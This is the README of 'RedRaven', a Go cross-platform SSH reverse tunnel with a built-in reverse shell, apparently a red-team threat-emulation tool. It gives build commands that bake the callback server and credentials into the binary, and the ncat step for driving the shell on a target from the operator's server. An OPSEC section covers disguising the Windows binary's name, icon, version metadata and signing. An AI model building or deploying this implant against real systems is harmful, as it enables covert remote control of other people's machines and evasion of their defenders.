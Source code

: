 ## RedRaven

RedRaven is a golang (recommend v1.15, v1.13 min) cross platform implementation of an ssh reverse tunnel (with a built in reverse shell) similar to:  

    ssh -R 8080:localhost:8080 -i ./privkey.pem user@serverAddr

This opens a tunnel between the two endpoints and allows data to be exchanged this direction:
   
    server:8080 ---> client:8080

Once authenticated a process on the SSH server can interact with the service answering to port 8080 of the client. In this case a built in reverse shell that you can interact with via ncat on the ssh server.  As this is a outbound model vs a bind you don't need to deal with any NAT/firewall rules assuming outbound ssh is allowed.

## Dependices
* [Go](https://golang.org/) 1.13+
* GNU make
* [goversioninfo](https://github.com/josephspurrier/goversioninfo) (needed to add the windows resource infromation to the binary)
* osslsigncode (needed to sign the windows binary) if you don't care about signing you can comment these lines out in the Makefile.

## How to build
The only thing you should need to modify is the Makefile for the variable "PATH_TO_PEM."  Note the variables are injected at build time via the Makefile.  Second, one may need to uncomment the log.Fatal lines in the main.go for troubleshooting, these statements are commented out for threat emulation purpose to excerise the blue IR and RE teams.  Note you may also need to run "make depends" first to generate the generate self signed certificate.

### Example 1 
You plan to use public Key auth, to do this you first need to set the PATH_TO_PEM variable in the Makefile and 
compile the binary with the nessecary paramaters for example:

    make linux64 PEM=true USER=ubuntu SERVER=<FQDN or IPaddr>:<PORT>

### Example 2 
You plan to use password auth, compile the binary with the nessecary paramaters for example:

    make linux64 PEM=false USER=ubuntu SERVER=acme.com:22 PASSWD=123pass

Note that it is possible to have both a PEM and PASSWD set, the PEM=BOOL controls what is used.

## On the SSH Server (gray space)
SSH to the server to interact with the target and type: 

    ncat localhost 8080

note control-c will kill ncat but it will not terminate the process on the client.  Another words the ssh session is still active. On a windows systems you would need to do something like the following:

    tasklist | findstr putty
    taskkill /F /PID <PID #>

## OPSEC
Things to consider for windows:
* ```You are embedding credentials in the binary being deployed, take precautions!```
* The name of the binary
* The icon
* The values in the ./resource/verioninfo.json file especially "OriginalFilename" - this should match the binary name set in the Makefile
* The fact this uses a self signed Certificate 
